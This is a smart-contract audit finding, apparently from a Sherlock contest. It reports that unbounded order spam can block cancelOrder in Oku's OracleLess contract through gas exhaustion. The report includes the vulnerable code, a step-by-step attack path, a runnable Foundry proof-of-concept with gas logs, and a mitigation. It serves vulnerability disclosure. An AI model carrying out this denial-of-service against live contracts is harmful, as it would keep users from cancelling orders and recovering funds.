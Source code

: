 Melted Sky Tiger

Medium

# Cancel order can be dos in OracleLess

### Summary

In [oracleLess:_cancelOrder](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L151), users may not cancel their orders because of the out of gas.


### Root Cause

In oracleLess, users can cancel their orders. In the cancelOrder, we will loop the `pendingOrderIds` to find the expected order, and then cancel it.

The problem is that there is not one `maxPendingOrders` limitation in `pendingOrderIds`. This may cause cancel order reverted because of out of gas.

For example:
1. Alice creates one order, `tokenIn: WETH, amountIn = 0, tokenOut: USDT, minAmountOut = 1000e18`. Alice can create one order without any deposited tokens.
2. Alice modifies this order's recipient to address(0). 
3. Alice repeats step1 & step2 thousand of times. This will expand the `pendingOrderIds` array's length.
4. Bob creates one order.
5. When Bob wants to cancel his order, his cancel will be reverted because of out of gas.
6. When admin finds out this case, admin will try to cancel these malicious orders.  But this admin cancel will be reverted because the `to` address is address(0).

```solidity
    function _cancelOrder(Order memory order) internal returns (bool) {
        for (uint96 i = 0; i < pendingOrderIds.length; i++) {
            if (pendingOrderIds[i] == order.orderId) {
                //remove from pending array
                pendingOrderIds = ArrayMutation.removeFromArray(
                    i,
                    pendingOrderIds
                );
                order.tokenIn.safeTransfer(order.recipient, order.amountIn);
                return true;
            }
        }
        return false;
    }
```
```solidity
USDT in OP -->
    function _transfer(address sender, address recipient, uint256 amount) internal virtual {
        require(sender != address(0), "ERC20: transfer from the zero address");
        require(recipient != address(0), "ERC20: transfer to the zero address");

        _beforeTokenTransfer(sender, recipient, amount);

        _balances[sender] = _balances[sender].sub(amount, "ERC20: transfer amount exceeds balance");
        _balances[recipient] = _balances[recipient].add(amount);
        emit Transfer(sender, recipient, amount);
    }
```

### Internal pre-conditions

N/A

### External pre-conditions

N/A

### Attack Path

1. Alice creates one order, `tokenIn: WETH, amountIn = 0, tokenOut: USDT, minAmountOut = 1000e18`. Alice can create one order without any deposited tokens.
2. Alice modifies this order's recipient to address(0). 
3. Alice repeats step1 & step2 thousand of times. This will expand the `pendingOrderIds` array's length.
4. Bob creates one order.
5. When Bob wants to cancel his order, his cancel will be reverted because of out of gas.
6. When admin finds out this case, admin will try to cancel these malicious orders.  But this admin cancel will be reverted because the `to` address is address(0).

### Impact

Cancel order will be dos. Users cannot cancel their orders.

### PoC


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {Counter} from "../src/Counter.sol";
import {AutomationMaster} from "../src/automatedTrigger/AutomationMaster.sol";
import {OracleLess} from "../src/automatedTrigger/OracleLess.sol";
import {IPermit2} from "../src/interfaces/uniswapV3/IPermit2.sol";
import {MockERC20} from "./MockERC20.sol";
import "../src/interfaces/openzeppelin/IERC20.sol";
contract CounterTest is Test {
    AutomationMaster public master;
    OracleLess public oracleLess;
    Counter public counter;
    IPermit2 public permit2;
    address alice = vm.addr(1);
    address bob = vm.addr(2);
    IERC20 token1;
    IERC20 token2;
    function setUp() public {
        // Deploy OracleLess, if we want to deploy OracleLess, we need to deploy one MASTER.
        permit2 = IPermit2(address(0));
        master = new AutomationMaster();
        oracleLess = new OracleLess(master, permit2);
        token1 = IERC20(address(new MockERC20("ETH", "ETH", 18)));
        token2 = IERC20(address(new MockERC20("DAI", "DAI", 8)));
        MockERC20(address(token1)).mint(bob, 1e18);
    }

    function testPocCancelDos() public {
        uint96 orderId;
        vm.startPrank(alice);
        uint256 gasBefore = gasleft();
        for (uint i = 0; i < 21000; i++) {
            orderId = oracleLess.createOrder(token1, token2, 0, 1000e8, alice, 0, false, "0x");
            oracleLess.modifyOrder(orderId, token2, 0, 1000e8, address(0), false, false, "0x");
        }
        uint256 gasAfter = gasleft();
        console.log("Attacker's gas consume : ", gasBefore - gasAfter);
        vm.stopPrank();
        vm.startPrank(bob);
        MockERC20(address(token1)).approve(address(oracleLess), 1e18);
        orderId = oracleLess.createOrder(token1, token2, 1e18, 1000e8, bob, 0, false, "0x");
        gasBefore = gasleft();
        oracleLess.cancelOrder(orderId);
        gasAfter = gasleft();
        console.log("Cancel Gas consumed: ", gasBefore - gasAfter);
        vm.stopPrank();
    }
}

```

In the above test case, the output is as below:
```bash
Logs:
  Attacker's gas consume :  999125025
  Cancel Gas consumed:  30643047
```
Attacker's cost is 999125025. Take gas price as 20gwei, the attack cost is about 0.01998 ETH.
Note: In the actual attack, this can not be executed in one transaction because of the block gas limit. But attackers can trigger this similar attack in sequences blocks.
After that, when users want to cancel their valid orders, their transaction will be reverted. Because the gas consumed is 30643047, is larger than `30,000,000`. In Op chain, one block's gas limit is 30,000,000.

### Mitigation

Add minimum order amount like Bracket, this will increase the attack's cost.